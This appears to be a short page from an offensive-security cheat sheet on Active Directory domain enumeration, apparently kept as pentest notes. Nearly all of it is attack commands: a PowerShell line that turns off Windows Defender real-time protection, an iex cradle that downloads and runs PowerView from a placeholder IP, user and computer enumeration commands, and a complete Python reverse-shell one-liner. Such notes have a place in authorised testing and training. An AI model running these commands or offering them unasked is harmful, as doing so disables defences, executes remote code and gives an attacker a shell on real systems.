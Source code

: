 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE


# ACTIVE DIRECTORY


### DOMAIN ENUMERATION
 # Patch AMSI or disable AV
<span style="color: Green;"># Patch AMSI or disable AV</span>
<span class="demo-highlight"># Patch AMSI or disable AV</span>


```powershell
      Set-MpPreference -DisableRealTimeMonitoring -DisableAVIOProtection $true
      iex(New-Object System.Net.WebClient).downloadString('http:/x.x.x.x./PowerView_DeV.ps1')
```
 <br>

```powershell
      Get-NetUsers | select samaccountname > username.txt
      
      # Get all the computers in the domain
      Get-NetComputer

      # Get information about specific computer
      Get-NetComputer -Identity <computer_name>
```



```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```